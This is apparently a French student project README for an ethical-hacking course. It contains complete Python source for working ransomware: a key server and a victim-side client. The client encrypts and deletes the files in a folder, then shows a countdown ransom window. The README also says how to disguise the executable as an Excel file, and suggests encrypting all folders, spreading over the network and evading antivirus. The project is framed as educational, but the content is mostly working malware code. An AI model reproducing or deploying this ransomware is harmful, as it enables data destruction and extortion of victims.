





# SR2I 203 - Ethical Hacking - Ransomw

# Introduction

Dans un but éducatif, ce projet concerne la création d'un ransomware et de l'exploitation d'une vulnérabilité Windows pour l'utiliser. 

Commençons par rappeler le principe d'un ransomware: Il s'agit d'un logiciel malveillant qui lors de son execution chiffre l'ensemble des fichiers présents sur l'ordinateur de la victime. La victime n'a donc plus accès à ses fichiers qui sont cryptés et seul l'attaquant possède la clé de déchiffrement. 

Le ransomware que nous allons créer repose sur les fonctions

## Demonstration de l'exécution du ransomware


## Principe de notre code

Nous allons utiliser un protocole de chiffrement symétrique. Il est toutefois possible d'utiliser un chiffrement asymétrique. Le chiffrement symétrique consiste à chiffrer un fichier avec une clé privé et le déchiffrer avec cette même clé. Le mot "symétrie" vient du fait qu'on utilise la même clé pour le chiffrement et déchiffrement.
Le ransomware a été configuré pour ne chiffrer que les fichiers présents dans le dossier nommé "Important" pour des raisons pratiques. 


Commençons par 

## Coté attaquant

Considérons deux machines A et V, les machines de l'attaquant et de la victime.
Le principe est le suivant: 
L'attaquant lance le fichier server.py qui va ouvrir une socket qui va rester "listening" en attendant une connexion. Elle va par la même occasion afficher la clé pouvant servir à déchiffrer les fichiers.




Lorsque la victime execute le ransomware, l'attaquant reçoit alors son IP : 




L'attaquant possède donc la clé que la victime va devoir entrer.

Voici le code correspondant au serveur: 
```python
from cryptography.fernet import Fernet
import socket

#Generation de la clé et on l'affiche
key= Fernet.generate_key()
print("Your key is:", key)

#On crée la socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("", 4321))
s.listen()

conn, addr= s.accept()
print(addr, "connected")

#Quand on reçoit la "key",on envoie la clé
msg= conn.recv(2048).decode()

if msg == "key": 
    conn.send(key)
    print("Key send !")
    
```


## Coté victime


De son côté, la victime reçoit un fichier .exe nommé contactEmployee avec une icone d'un fichier Excel. 
Elle pense alors ouvrir un fichier excel banal mais en réalité elle ouvre un executable qui va executer le code python suivant:



Sur l'image, il s'agit de Windows 7 mais le ransomware fonctionne sur toutes les versions de Windows postérieurs à Windows 7.

Lorsque l'executable se lance, tous les fichiers du dossier "Important" sont chiffrés et une fenêtre apparaît avec un compte à rebours, la victime doit entrer la clé que l'attaquant possède sinon les fichiers seront supprimés.





Le code éxécuté est:

```python
from cryptography.fernet import Fernet
import socket, os, pyfiglet
import tkinter as tk
import base64
import traceback

#Fonction de chiffrement
def encrypt_file(path):
    if not path.endswith(".encrypted"):
        path_without_ext = os.path.splitext(path)[0]
        new_path = path_without_ext + ".encrypted"
        #os.rename(path, new_path)
        with open(path, "rb") as normal_file:
            normal_content=normal_file.read()
            with open(new_path, "wb") as encrypted_file:
                encrypted_content= fn.encrypt(normal_content)
                encrypted_file.write(encrypted_content)
                encrypted_file.close()
            normal_file.close()
        os.remove(path)


#Fonction de dechiffrement
def decrypt_file(path):
    if path.endswith(".encrypted"):
        path_without_ext = os.path.splitext(path)[0]
        text=os.path.splitext(path)
        with open(path, "rb") as encrypted_file:
            # Stocker les données lues dans une variable
            encrypted_content = encrypted_file.read()
            with open(path_without_ext, "wb") as normal_file:
                decrypted_content=fn.decrypt(encrypted_content)
                normal_file.write(decrypted_content)
                normal_file.close()
            encrypted_file.close()
        os.remove(path)


#Fonction qui verifie la cle
def check_key():
    key_e=entry.get()
    key_e=key_e.encode(encoding = 'UTF-8')
    if key_e==key:
        print("Meme clé")
    else:
        print("Pas la même clé")
    try:
        for path, dirs, files in os.walk(relative_path):
            for f in files:
                decrypt_file(os.path.join(path, f))
        label1['text'] = "Dechiffrement realise avec succes"
    except Exception as e:
        label1['text'] = "Cle invalide, veuillez reessayer"
        traceback.print_exc()


#Creation de la socket et connexion, on envoie "key" quand on reçoit la clé
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 4321))
s.send(b'key')
key = s.recv(2048)
s.close()

#creation d'un objet fernet nous permettant de chiffrer ou dechiffrer
fn= Fernet(key)

#On encrypte chaque fichier
relative_path="./Important"
for path, dirs, files in os.walk(relative_path):
    for f in files: 
        encrypt_file(os.path.join(path, f))


# Utilisation de pyfiglet pour faire une banniere
banner= pyfiglet.figlet_format("Vous avez ete victime de SR2I - 203")
print(banner)


def countdown(count):
    hour, minute, second = count.split(':')
    hour = int(hour)
    minute = int(minute)
    second = int(second)

    label['text'] = '{}:{}:{}'.format(hour, minute, second)

    if second > 0 or minute > 0 or hour > 0:
        if second > 0:
            second -= 1
        elif minute > 0:
            minute -= 1
            second = 59
        elif hour > 0:
            hour -= 1
            minute = 59
            second = 59
        root.after(1000, countdown, '{}:{}:{}'.format(hour, minute, second)) 
    else:
        label['text'] = "Time's up!"
        label.config(fg='red')

root = tk.Tk()
root.title('SR2I-203 Ransomware')
root.geometry('900x500')
root.resizable(False, False)

label1 = tk.Label(root, text='Vos donnees sont prises en otage mais ne me payez pas,\n donnez moi juste une bonne note"\n\n', font=('calibri', 12,'bold'))
label1.pack()

label = tk.Label(root,font=('calibri', 50,'bold'), fg='white', bg='blue')
label.pack()

entry = tk.Entry(root, font=('calibri', 20))
entry.pack()

submit_button = tk.Button(root, text="Submit", command=check_key)
submit_button.pack()

# call countdown first time    
countdown('01:30:00')
root.mainloop()


```
Le fichier .exe a été généré à l'aide de Pyinstaller. Sur l'image, il s'agit de Windows 7 mais le ransomware fonctionne sur toutes les versions de Windows postérieurs à Windows 7.


## Améliorations possibles

- Pour des raisons pratiques, nous avons limité le chiffrement au dossier "Important" mais il est facilement possible de chiffrer tous les dossiers présents dans l'ordinateur.
- Dans notre code, le serveur arrête d'écouter dès qu'une victime lance le script. Il est préférable que le serveur reste en écoute et génère plusieurs clés pour chaque utilisateur qui se connecte. 
- Il est possible d'améliorer le ransomware pour qu'il se diffuse aux autres ordinateurs du réseau mais ça demande un travail assez conséquent.
- Ici, notre ransomware serait facilement arrêté par un antivirus mais mes tests ont montré qu'il est possible de bypasser l'anti-virus en executant le .exe depuis le terminal. 
